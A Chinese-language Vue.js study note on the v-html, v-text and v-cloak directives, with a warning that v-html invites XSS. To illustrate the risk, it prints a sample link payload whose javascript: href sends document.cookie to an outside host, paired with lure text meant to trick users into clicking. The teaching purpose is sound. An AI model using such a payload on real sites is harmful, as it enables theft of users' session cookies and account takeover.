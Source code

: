 1. v-html会替换掉节点中所有的内容，{{xx}}则不会。
2. v-html可以识别html结构。 v-text 不可以 
3. **严重注意：v-html有安全性问题**！！！！
   1. 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
   2. 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！		

可以通过 `v-html`在页面上渲染类似于 这样的代码

```json
url: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
```

欺骗用户点击超链接从而盗取目标用户的 cookie 模拟目标用户的登录行为 或者获取操作权限

cookie 在 开发者工具中可以查看

![83749505a5b1b6ab95a2fa1cd568516](README.assets/83749505a5b1b6ab95a2fa1cd568516.png)

### v-cloak

* 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
* 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

常用的场景是在 **从外部引入或者网速过慢** 导致 vue 引入过慢的情况 可以 **避免页面展示插值表达式** 或者 **其他不想展示的被 Vue 管理的内容**

```html
<style type="text/css">
    [v-cloak] {
        display: none;
    }
</style>
<body>
<div id="root">
    <h2 v-cloak>显示当前，{{message}}</h2>
</div>
<!--延时五秒钟引入 Vue -->
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
</body>
<script>
    Vue.config.productionTip = false;
    new Vue({
        el: '#root',
        data: {
            message: '内容content',
        },
    });
</script>
```
